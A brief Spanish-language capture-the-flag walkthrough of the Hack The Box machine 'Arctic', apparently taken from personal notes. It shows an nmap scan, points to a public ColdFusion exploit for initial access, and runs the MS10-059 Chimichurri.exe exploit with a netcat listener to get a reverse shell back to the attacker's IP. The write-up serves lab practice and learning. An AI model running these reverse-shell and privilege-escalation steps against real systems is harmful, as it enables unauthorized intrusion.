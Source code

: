 

```bash
# Nmap 7.95 scan initiated Wed Jun  4 09:39:51 2025 as: /usr/lib/nmap/nmap --privileged -sCV --min-rate 5000 -v -Pn -oN Artic.txt 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.043s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  4 09:42:28 2025 -- 1 IP address (1 host up) scanned in 157.05 seconds
```


vemos que encontramos una aplicacion de Coldfusion

![[Pasted image 20250604094831.png]]

buscamos exploit para esto

vemos que tenemos esto
https://www.exploit-db.com/exploits/50057


lo usamos y estamos dentro
![[Pasted image 20250604094916.png]]

ejecutamos windows exploit suggester


![[Pasted image 20250604123502.png]]

vemos que tenemos unas cuantas, despues de investigar, vemos que tenemos que MS10-059


descargamos el exploit y lo pasamos a la maquina



```bash
Chimichurri.exe 10.10.14.20 8080
```

```
nc -nlvp 8080
```

![[Pasted image 20250604123713.png]]